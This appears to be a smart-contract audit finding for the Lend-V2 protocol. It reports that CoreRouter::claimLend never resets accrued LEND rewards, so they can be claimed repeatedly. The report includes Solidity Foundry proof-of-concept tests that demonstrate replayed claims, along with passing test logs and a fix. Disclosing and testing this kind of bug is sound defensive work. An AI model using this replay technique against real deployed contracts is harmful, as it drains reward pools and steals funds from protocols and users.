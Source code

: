 Exotic Coffee Manatee

High

# Claiming rewards does not update status after claiming will allow attacker to drain all the tokens

### Summary

The `CoreRouter::claimLend` function does not update the internal state after transferring LEND tokens to the user. As a result, the same LEND accruals can be claimed multiple times, either by re-sending the same user multiple times in a single call or by calling the function repeatedly.

This leads to inflation of the LEND token and potential draining of the protocol's reward pool.

### Root Cause

In [`CoreRouter::claimLend`](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L370), the accrued LEND tokens are distributed using [`CoreRouter::grantLendInternal`](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L416C2-L426C1), but the `lendAccrued` value for each holder is never reset or decreased after the transfer.

This allows exploit vectors:

1. **Duplicate addresses in a single call**: An attacker can include the same user address multiple times in the `holders[]` array to claim the same reward repeatedly in one transaction.
2. **Multiple calls**: Anyone can re-call the `claimLend` function with the same address, and since the accrued amount hasn't been cleared, they will receive the same tokens again.
3. In addition if a holder knows the address of another holder he can force claiming his reward even that the second holder do NOT want to do it. In this case there is no loss funds, because the funds will be transferred to the second holder, however maybe he will not won't that. Basically someone can send you back you're supplied investments.

Both vectors share the same root cause — **lack of state update after claim** + **no access control or parameter checks**.

### Internal Pre-conditions

- A user has accrued LEND rewards.
- The protocol holds sufficient LEND tokens to cover repeated claims.

### External Pre-conditions

- The user (or attacker) can control the contents of the `holders[]` array and call `claimLend`.

### Attack Path

1. User accrues LEND through lending or borrowing activity.
2. Attacker calls `claimLend` with the same address multiple times in `holders[]`, or repeatedly invokes the function with identical parameters.
3. Since `lendAccrued` is never reset, the LEND tokens are sent again and again.
4. The protocol rewards are drained or inflated beyond what was earned.

### Impact

- **Loss of funds from the protocol reward pool**
- **Inflation of the LEND token supply**
- **Users receiving more rewards than they are entitled to**
- **Economic imbalance and unfair advantage for attackers**
- **Potential full depletion of reward pool over time**

### PoC

Please add the tests below in [`TestLendAccrual.t.sol`](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/test/mocks/TestLendAccrual.t.sol#L20):

*Tests demonstrating both attack vectors should be added.*

```solidity

// please add this function in order to process the tests correctly
   function _supplyFn(uint256 amount, address user) internal returns (address token, address lToken) {
        token = supportedTokens[0];
        lToken = lendStorage.underlyingTolToken(token);

        ERC20Mock(token).mint(user, amount);
        IERC20(token).approve(address(coreRouter), amount);
        coreRouter.supply(amount, token);
    }

    function test_replayClaimDoubleDrainsLEND() public {
        vm.deal(address(this), 1000 ether);
        uint256 supplyAmount = 100e18;

        // we supply behalf of user2, just to put enough investmenrs in the CoreRouter
        vm.startPrank(user2);
        _supplyFn(supplyAmount, user2);
        vm.stopPrank();


        vm.startPrank(user1);
        (address token, address lToken) = _supplyFn(supplyAmount, user1);

        vm.warp(block.timestamp + 1 days);
        vm.roll(block.number + 100);
        uint256 totalInvestment = lendStorage.totalInvestment(user1, lToken);

        console2.log("totalInvestment:", totalInvestment);

        // Prepare holders/lTokens arrays
        address[] memory holders = new address[](1);
        holders[0] = user1;
        LToken[] memory lTokens = new LToken[](1);
        lTokens[0] = LToken(lToken);

        // First claim
        address lendToken = lendtroller.getLendAddress();

        uint256 before1 = IERC20(lendToken).balanceOf(user1);
        console2.log("Balance of the user before any clamings:", before1);
        coreRouter.claimLend(holders, lTokens, false, true);
        uint256 after1 = IERC20(lendToken).balanceOf(user1);
        console2.log("After first claim:", after1);
        uint256 claimed1 = after1 - before1;
        console2.log("Claimed first time:", claimed1);
        assertGt(claimed1, 0, "First claim should yield tokens");

        // Second claim without resetting state
        uint256 before2 = IERC20(lendToken).balanceOf(user1);
        coreRouter.claimLend(holders, lTokens, false, true);
        uint256 after2 = IERC20(lendToken).balanceOf(user1);
        uint256 claimed2 = after2 - before2;
        console2.log("Claimed second time:", claimed2);
        vm.stopPrank();
        
        // Expect second claim to also yield tokens, demonstrating replay
        console2.log("Balance of the user at the end:", after2);
        assertGt(after2, totalInvestment);
        assertGt(claimed2, 0, "Second claim should also yield tokens (replay vulnerability)");
    }

    function test_replayClaimWithSameHoldersLEND() public {
       vm.deal(address(this), 1000 ether);
        uint256 supplyAmount = 100e18;

        // we supply behalf of user2, just to put enough investmenrs in the CoreRouter
        vm.startPrank(user2);
        _supplyFn(supplyAmount, user2);
        vm.stopPrank();


        vm.startPrank(user1);
        (address token, address lToken) = _supplyFn(supplyAmount, user1);

        vm.warp(block.timestamp + 1 days);
        vm.roll(block.number + 100);
        uint256 totalInvestment = lendStorage.totalInvestment(user1, lToken);

        console2.log("totalInvestment:", totalInvestment);

        // Prepare holders/lTokens arrays
        address[] memory holders = new address[](2);
        holders[0] = user1;
        holders[1] = user1;
        LToken[] memory lTokens = new LToken[](1);
        lTokens[0] = LToken(lToken);

        // First claim
        address lendToken = lendtroller.getLendAddress();

        uint256 startBalance = IERC20(lendToken).balanceOf(user1);
        console2.log("Balance of the user before any clamings:", startBalance);
        coreRouter.claimLend(holders, lTokens, false, true);
        uint256 balanceAfterClaim = IERC20(lendToken).balanceOf(user1);
        console2.log("After first claim:", balanceAfterClaim);
        uint256 claimed = balanceAfterClaim - startBalance;
        console2.log("Claimed", claimed);
        assertGt(claimed, 0, "First claim should yield tokens");

        console2.log("Balance of the user at the end:", balanceAfterClaim);
        assertGt(balanceAfterClaim, totalInvestment);
    }
```

**Test results:**

[PASS] test_replayClaimWithSameHoldersLEND() (gas: 801877)
Logs:
  totalInvestment: 500000000000
  Balance of the user before any clamings: 0
  After first claim: 10000000000000000
  Claimed 10000000000000000
  Balance of the user at the end: 10000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.83ms (608.81µs CPU time)

Ran 1 test for test/mocks/TestLendAccrual.t.sol:TestLendAccrual
[PASS] test_replayClaimDoubleDrainsLEND() (gas: 837778)
Logs:
  totalInvestment: 500000000000
  Balance of the user before any clamings: 0
  After first claim: 5000000000000000
  Claimed first time: 5000000000000000
  Claimed second time: 5000000000000000
  Balance of the user at the end: 10000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.44ms (724.82µs CPU time)

### Mitigation

After successfully transferring the accrued LEND tokens to a user, the  state should be reset to zero(`lendAccrued[user]`...). 
